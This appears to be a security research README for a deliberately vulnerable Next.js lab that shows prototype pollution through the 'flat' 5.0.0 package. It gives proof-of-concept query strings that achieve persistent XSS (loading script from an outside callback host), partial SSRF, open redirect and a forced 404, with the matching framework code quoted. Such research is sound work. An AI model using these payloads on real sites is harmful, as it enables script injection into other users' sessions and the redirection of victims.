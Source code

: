 # Next.js Flat Prototype Pollution

A prototype pollution scenario in [Next.js](https://github.com/vercel/next.js/) when [flat](https://security.snyk.io/vuln/SNYK-JS-FLAT-596927) `5.0.0` is used.

> Video goes here

## Setup Instructions

Install dependencies and start production server.

```sh
npm install
npm run build
npm start
```

## Gadgets

> Lot of unexplored surface. If you find any gadgets, send a pull request :)

| Name                              | Description                                        | Type                          | Package                         | Completed |
| --------------------------------- | -------------------------------------------------- | ----------------------------- | ------------------------------- | :-------: |
| [AMP first look](#amp-first-look) | via `ampUrlPrefix` in `ampOptimizer.transformHtml` | Persistent XSS + Partial SSRF | `@ampproject/toolbox-optimizer` |     ✔     |
| [Redirect SSR](#redirect-ssr)     | via `redirect.destination` in `getServerSideProps` | Open Redirect                 | `next`                          |     ✔     |
| [404 SSR](#404-ssr)               | via `notFound` in `getServerSideProps`             | Permanant 404                 | `next`                          |     ✔     |
| More AMP                          |                                                    |                               |                                 |           |
| React Server Components           |                                                    |                               |                                 |           |
| Image & Font Optimization         |                                                    |                               |                                 |           |
| API & Middlewares                 |                                                    |                               |                                 |           |
| Router                            |                                                    |                               |                                 |           |
| Prisma                            |                                                    |                               |                                 |           |

## AMP first look

Persistent Cross-Site Scripting via `ampUrlPrefix` in `ampOptimizer.transformHtml`.

Also a partial SSRF via `node-fetch` during AMP transform.

**Poc**

```sh
# XSS on a AMP enabled Page
/vulnerable?__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# XSS on a Non-AMP Page (but AMP should be enabled in atleast one other page on the site)
/vulnerable?amp=1&__proto__.amp=hybrid&__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# Partial SSRF - works if route `/*` does not return 404 else server hangs
/vulnerable?__proto__.ampUrlPrefix=https://URL/

```

**Cause**

Requires 2 stages to poison the server-side code with our payload because AMP check happens before the pollution in `getServerSideProps`. So we pollute in the first request and trigger in another which does a new AMP check and optimize.
Once it's poisoned any single subsequent request will trigger XSS on any session as the server-side code is poisoned via prototype pollution.

```js
/* next/server/render.tsx */
const ampState = {
  ampFirst: pageConfig.amp === true,
  hasQuery: Boolean(query.amp),
  hybrid: pageConfig.amp === "hybrid",
};
const inAmpMode = !process.browser && (0, _amp).isInAmpMode(ampState); // isInAmpMode() { return ampFirst || hybrid && hasQuery }
// ...
html = await optimizeAmp(html, renderOpts.ampOptimizerConfig);
```

```js
/* next/server/optimize-amp.ts */
const optimizer = AmpOptimizer.create(config);
return optimizer.transformHtml(html, config); // config.ampUrlPrefix = 'https://xss-callback.pwnfunction.repl.co/'
```

```js
/* @ampproject/toolbox-optimizer/index.js */
async transformHtml(t, e) {
    const r = await i.parse(t);
    await this.transformTree(r, e);
    return i.serialize(r);
}
```

```js
/* `transformTree` eventually leads to the following */
5690: (t, e, r) => {
    // ...
    class RewriteAmpUrls {
        // ...
        transform(t, e) {
            // ...
            d.push(this._createPreload(l.attribs.src, "script")); // l.attribs.src = 'https://xss-callback.pwnfunction.repl.co/'
            // ...
        }
        // ...
    }
    t.exports = RewriteAmpUrls;
},

// <script async="" src="https://xss-callback.pwnfunction.repl.co/v0.js"></script>
```

> ➕ Also while initializing runtime styles in `@ampproject/toolbox-optimizer`, response body from `ampUrlPrefix` is inserted directly into the ssr-page, meaning one can still achieve XSS even if `RewriteAmpUrls` transformer is disabled.

> 📝 Note: In `next.config.js`, we skip validation `skipValidation: true`.
> This is to disable `SeparateKeyframes` (`fn 1053`) - `@ampproject/toolbox-optimizer/index.js` throws `filter on undefined` due to prototype pollution. (Lazy fix)

## Redirect SSR

**Poc**

```url
/vulnerable?__proto__.redirect.destination=https://pwnfunction.com
```

**Cause**

```js
/* next/server/render.tsx */
if ("redirect" in data && typeof data.redirect === "object") {
  checkRedirectValues(data.redirect, req, "getServerSideProps");
  data.props = {
    __N_REDIRECT: data.redirect.destination,
    __N_REDIRECT_STATUS: (0, _loadCustomRoutes).getRedirectStatus(
      data.redirect
    ),
  };
  if (typeof data.redirect.basePath !== "undefined") {
    data.props.__N_REDIRECT_BASE_PATH = data.redirect.basePath;
  }
  renderOpts.isRedirect = true;
}
```

## 404 SSR

**Poc**

```url
/vulnerable?__proto__.notFound=1
```

**Cause**

```js
/* next/server/render.tsx */
if ('notFound' in data && data.notFound) {
    if (pathname === '/404') {
        throw new Error(
            `The /404 page can not return notFound in "getStaticProps", please remove it to continue!`
        )
    }

    ;(renderOpts as any).isNotFound = true
    return null
}
```

# Resources

- Prototype pollution attacks in NodeJS applications by Oliver Arteau
  - Video: [Prototype pollution attacks in NodeJS applications](https://www.youtube.com/watch?v=LUsiFV3dsK8)
  - Github: [Paper, Slides and Code](https://github.com/HoLyVieR/prototype-pollution-nsec18)
- [Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution) by [Black2Fan](https://twitter.com/Black2Fan)
- A tale of making internet pollution free
  - Slides: [A tale of making internet pollution free](https://speakerdeck.com/s1r1us/a-tale-of-making-internet-pollution-free-bsides-ahmedabad-2021) by [s1r1us](https://twitter.com/S1r1u5_) and [Harsh Jaiswal](https://twitter.com/rootxharsh)
  - Blog post: ["A tale of making internet pollution free" - Exploiting Client-Side Prototype Pollution in the wild](https://blog.s1r1us.ninja/research/PP)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/) by [Michał Bentkowski](https://twitter.com/SecurityMB)
- Javascript prototype pollution by [Rahul Maini](https://twitter.com/iamnoooob) and [Harsh Jaiswal](https://twitter.com/rootxharsh)
  - Video: [Part 1](https://www.youtube.com/watch?v=J3MIOIqvV8w)
  - Video: [Part 2](https://www.youtube.com/watch?v=yDmOXhr8wmw)
